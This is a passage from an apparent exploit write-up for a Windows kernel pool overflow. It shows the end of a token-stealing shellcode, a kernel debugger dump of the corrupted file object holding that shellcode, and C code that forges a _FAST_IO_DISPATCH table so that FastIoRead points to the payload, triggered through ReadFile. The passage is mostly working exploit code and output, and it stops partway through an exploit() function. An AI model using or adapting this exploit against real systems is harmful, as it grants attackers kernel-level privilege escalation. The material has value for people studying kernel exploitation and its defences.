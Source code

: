  mov [eax], edx
 mov [eax + 4], edx
 mov al, 1
 ret 0x20
 
StealSysToken: dd 0x0
{% endhighlight %}
The content of the file object after the overflow:
```text
kd> db 865228d0 LB8
865228d0  56 00 17 04 46 69 6c e5-00 00 00 00 00 00 00 00  V...Fil.........
865228e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
865228f0  22 22 00 00 22 22 00 00-00 00 00 00 1c 00 04 40  "".."".........@
86522900  00 00 00 00 00 00 00 00-cc e8 00 00 00 00 59 83  ..............Y.
86522910  e9 06 0f 20 e0 0f ba f0-14 0f 22 e0 ff 51 27 8b  ... ......"..Q'.
86522920  44 24 1c 31 d2 89 10 89-50 04 b0 01 c2 20 00 c0  D$.1....P.... ..
86522930  d1 97 00 00 42 00 04 00-14 00 14 00 08 ce 7a 8f  ....B.........z.
86522940  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
86522950  00 00 00 00 01 00 04 00-00 00 00 00 5c 29 52 86  ............\)R.
86522960  5c 29 52 86 00 00 04 00-01 00 00 00 6c 29 52 86  \)R.........l)R.
86522970  6c 29 52 86 00 00 00 00-00 00 00 00 7c 29 52 86  l)R.........|)R.
86522980  7c 29 52 86 00 00 00 00                          |)R.....
kd> dt _object_header 865228f0
nt!_OBJECT_HEADER
   +0x000 PointerCount     : 0n8738 ;Mark
   +0x004 HandleCount      : 0n8738 ;Mark
   +0x004 NextToFree       : 0x00002222 Void
   +0x008 Lock             : _EX_PUSH_LOCK
   +0x00c TypeIndex        : 0x1c ''
   +0x00d TraceFlags       : 0 ''
   +0x00e InfoMask         : 0x4 ''
   +0x00f Flags            : 0x40 '@'
   +0x010 ObjectCreateInfo : (null) 
   +0x010 QuotaBlockCharged : (null) 
   +0x014 SecurityDescriptor : (null) 
   +0x018 Body             : _QUAD
```
Function Overlow listed above returns the address of the constructed object. We use the returned address to build_FAST_IO_DISPATCH function table:
{% highlight C %}
    DROP_FILE_WITH_CHECK(Payload);
    r = Overflow(hDevice, &pPayload, &hObject);
    printf("Payload: %p\n", pPayload);
    CHECK_NULL_EXIT(pPayload);
    DeleteFiles();

    //offset nt!_FAST_IO_DISPATCH::FastIoRead
    p = (PVOID *)&FastIo[0x334 + 0x10];
    *p = pPayload;
    DROP_FILE_WITH_CHECK(FastIo);
    Overflow(hDevice, &pFastIo, &hObject);
    printf("FastIo: %p\n", pFastIo);
    CHECK_NULL_EXIT(pFastIo);
    DeleteFiles();
{% endhighlight %}
Similarly, we build the rest of objects in the chain and trigger execution by calling ReadFile API:
{% highlight C %}
void exploit()
{
#define CHECK_NULL_EXIT(p) if ((p) == NULL) goto Exit;
#define CHECK_DROP_FILE(p) if ((p) == FALSE) { printf("DropFile failed\n"); goto Exit; }
#define DROP_FILE_WITH_CHECK(Data) { \
r = DropFile((Data), sizeof((Data))); \
if (r == FALSE) \
{ \